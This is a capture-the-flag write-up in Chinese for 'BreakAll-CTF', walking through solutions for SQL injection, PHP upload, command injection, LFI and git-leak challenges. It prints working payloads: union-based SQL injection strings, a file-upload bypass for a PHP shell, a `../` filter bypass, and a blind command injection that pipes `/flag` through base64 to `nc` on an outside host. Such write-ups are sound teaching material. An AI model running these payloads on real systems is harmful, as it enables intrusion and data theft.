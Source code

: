 # BreakAll-CTF

有些misc的script隨便寫寫，解完就忘記丟哪了，所以沒放上來

如果有找到會再補上

## EasyPeasy

單純的Union Based MySQL Injection

`id = 1 and 1 = 2 union select 1, 2, 3`

`id = 1 and 1 = 2 union select 1, 2, group_concat(schema_name) from information_schema.schemata`

`id = 1 and 1 = 2 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='fl4g'`

`id = 1 and 1 = 2 union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='secret'`

`id = 1 and 1 = 2 union select 1, 2, THIS_IS_FLAG_YO from fl4g.secret`


## EasyPeasy2

只是把回顯關掉

但是有True / False

所以可以用Boolean Based SQL Injection

比較意外的是這題其實可以用SQLmap，但解出來的人居然不多XD


## four-char-inj 

這題的話其實就是考MySQL的觀念

MySQL有點weak type的味道

所以`/?user='|0%23`就能過了，pass用不到

因為`'字串' | 0` 會變成0，所以整句變成`WHERE username=0`

所以假設DB中的username是`admin`，那這個條件就會成立 (類似PHP)

另外這題解答不唯一

還可以`/?user='=0%23`, `/?user='^0%23`等


## sh3ll_upload3r

這題就很單純，能上傳的內容基本上不能變，也繞不過

但他有擋副檔名，不能出現`h`

所以其實就是要考Apache解析漏洞

上傳`shell.php.abc`

再去訪問`/upload/shell.php.abc`就會跑這隻腳本惹


## youtube_viewer

這題居然沒人解XDDD

這題是某場CTF的題目改編的


因為沒有Source Code，也沒有回顯

加上題目說後端會去下載/查看youtube image

所以可以猜測可能背後是用curl或wget之類的command

(一般人很容易往XSS, SQLinj, SSRF...等方向想，但都不會想到可能是Command Injection XD)

他還提示我們多踹一些Payload，所以可以猜測應該不是常見的情境

試試常用的幾個：`&& sleep 10`, `| sleep 10`, ... 都無法

最後試: `';sleep 10;'`

OK，成功了

所以猜測他背後應該是長這樣：`system("curl 'https://youtube.com/xxxx/$myinput'")`

但沒有回顯，所以我們要把資料傳出來

可以這樣：`';cat /flag | base64 | nc ctf.kaibro.tw 5566;'`

## easy_lfi

這題會把`../`砍掉

所以只要改用`....//`，就會被取代成原本的`../`

`....//....//....//....//....//....//....//flag`

## git leak

就跟題目名字一樣

單純的git還原

就看得到FLAG惹XD


## RSA 後門 (1)

題目給了`d^2*e + 7phi`

又知`c = m^e`

所以`c^(d^2*e+7phi)%n = m^(d^2*e^2+7*phi*e)%n = m`

---

